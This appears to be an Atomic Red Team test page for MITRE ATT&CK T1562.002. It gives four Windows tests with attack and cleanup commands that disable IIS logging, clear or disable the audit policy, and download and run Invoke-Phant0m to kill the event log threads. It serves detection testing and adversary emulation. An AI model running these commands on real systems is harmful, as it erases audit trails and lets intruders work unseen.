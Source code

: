 # T1562.002 - Disable Windows Event Logging
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1562/002)
<blockquote>Adversaries may disable Windows event logging to limit data that can be leveraged for detections and audits. Windows event logs record user and system activity such as login attempts, process creation, and much more.(Citation: Windows Log Events) This data is used by security tools and analysts to generate detections.

Adversaries may targeting system-wide logging or just that of a particular application. By disabling Windows event logging, adversaries can operate while leaving less evidence of a compromise behind.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Disable Windows IIS HTTP Logging](#atomic-test-1---disable-windows-iis-http-logging)

- [Atomic Test #2 - Kill Event Log Service Threads](#atomic-test-2---kill-event-log-service-threads)

- [Atomic Test #3 - Impair Windows Audit Log Policy](#atomic-test-3---impair-windows-audit-log-policy)

- [Atomic Test #4 - Clear Windows Audit Policy Config](#atomic-test-4---clear-windows-audit-policy-config)


<br/>

## Atomic Test #1 - Disable Windows IIS HTTP Logging
Disables HTTP logging on a Windows IIS web server as seen by Threat Group 3390 (Bronze Union).
This action requires HTTP logging configurations in IIS to be unlocked.

Use the cleanup commands to restore some default auditpol settings (your original settings will be lost)

**Supported Platforms:** Windows


**auto_generated_guid:** 69435dcf-c66f-4ec0-a8b1-82beb76b34db





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| website_name | The name of the website on a server | String | Default Web Site|


#### Attack Commands: Run with `powershell`! 


```powershell
C:\Windows\System32\inetsrv\appcmd.exe set config "#{website_name}" /section:httplogging /dontLog:true
```

#### Cleanup Commands:
```powershell
if(Test-Path "C:\Windows\System32\inetsrv\appcmd.exe"){
  C:\Windows\System32\inetsrv\appcmd.exe set config "#{website_name}" /section:httplogging /dontLog:false *>$null
}
```





<br/>
<br/>

## Atomic Test #2 - Kill Event Log Service Threads
Kill Windows Event Log Service Threads using Invoke-Phant0m. WARNING you will need to restart PC to return to normal state with Log Service. https://artofpwn.com/phant0m-killing-windows-event-log.html

**Supported Platforms:** Windows


**auto_generated_guid:** 41ac52ba-5d5e-40c0-b267-573ed90489bd






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned -ErrorAction Ignore
$url = "https://raw.githubusercontent.com/hlldz/Invoke-Phant0m/f1396c411a867e1b471ef80c5c534466103440e0/Invoke-Phant0m.ps1"
$output = "$env:TEMP\Invoke-Phant0m.ps1"
$wc = New-Object System.Net.WebClient
$wc.DownloadFile($url, $output)
cd $env:TEMP
Import-Module .\Invoke-Phant0m.ps1
Invoke-Phant0m
```

#### Cleanup Commands:
```powershell
Write-Host "NEED TO Restart-Computer TO ENSURE LOGGING RETURNS" -fore red
Remove-Item "$env:TEMP\Invoke-Phant0m.ps1" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Impair Windows Audit Log Policy
Disables the windows audit policy to prevent key host based telemetry being written into the event logs.
[Solarigate example](https://www.microsoft.com/security/blog/2021/01/20/deep-dive-into-the-solorigate-second-stage-activation-from-sunburst-to-teardrop-and-raindrop/)

**Supported Platforms:** Windows


**auto_generated_guid:** 5102a3a7-e2d7-4129-9e45-f483f2e0eea8






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
auditpol /set /category:"Account Logon" /success:disable /failure:disable
auditpol /set /category:"Logon/Logoff" /success:disable /failure:disable
auditpol /set /category:"Detailed Tracking" /success:disable
```

#### Cleanup Commands:
```cmd
auditpol /set /category:"Account Logon" /success:enable /failure:enable
auditpol /set /category:"Detailed Tracking" /success:enable
auditpol /set /category:"Logon/Logoff" /success:enable /failure:enable
```





<br/>
<br/>

## Atomic Test #4 - Clear Windows Audit Policy Config
Clear the Windows audit policy using auditpol utility. This action would stop certain audit events from being recorded in the security log.

**Supported Platforms:** Windows


**auto_generated_guid:** 913c0e4e-4b37-4b78-ad0b-90e7b25010f6






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
auditpol /clear /y
auditpol /remove /allusers
```

#### Cleanup Commands:
```cmd
auditpol /set /category:"Account Logon" /success:enable /failure:enable
auditpol /set /category:"Detailed Tracking" /success:enable
auditpol /set /category:"Logon/Logoff" /success:enable /failure:enable
```





<br/>
